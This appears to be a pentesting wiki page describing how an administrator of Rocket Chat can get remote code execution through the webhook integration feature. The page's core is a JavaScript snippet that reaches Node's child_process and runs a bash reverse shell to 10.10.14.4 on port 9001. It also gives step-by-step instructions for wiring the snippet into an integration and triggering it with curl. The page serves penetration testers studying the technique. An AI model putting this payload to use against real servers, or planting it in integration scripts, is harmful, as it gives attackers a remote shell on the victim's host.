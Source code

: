 # Rocket Chat


<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## RCE

If you are admin inside Rocket Chat you can get RCE.

* Got to **`Integrations`** and select **`New Integration`** and choose any: **`Incoming WebHook`** or **`Outgoing WebHook`**.
  * `/admin/integrations/incoming`

<figure><img src="../../.gitbook/assets/image (266).png" alt=""><figcaption></figcaption></figure>

* According to the [docs](https://docs.rocket.chat/guides/administration/admin-panel/integrations), both use ES2015 / ECMAScript 6 ([basically JavaScript](https://codeburst.io/javascript-wtf-is-es6-es8-es-2017-ecmascript-dca859e4821c)) to process the data. So lets get a [rev shell for javascript](../../generic-methodologies-and-resources/reverse-shells/linux.md#nodejs) like:

```javascript
const require = console.log.constructor('return process.mainModule.require')();
const { exec } = require('child_process');
exec("bash -c 'bash -i >& /dev/tcp/10.10.14.4/9001 0>&1'")
```

* Configure the WebHook (the channel and post as username must exists):

<figure><img src="../../.gitbook/assets/image (905).png" alt=""><figcaption></figcaption></figure>

* Configure WebHook script:

<figure><img src="../../.gitbook/assets/image (572).png" alt=""><figcaption></figcaption></figure>

* Save changes
* Get the generated WebHook URL:

<figure><img src="../../.gitbook/assets/image (937).png" alt=""><figcaption></figcaption></figure>

* Call it with curl and you shuold receive the rev shell

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

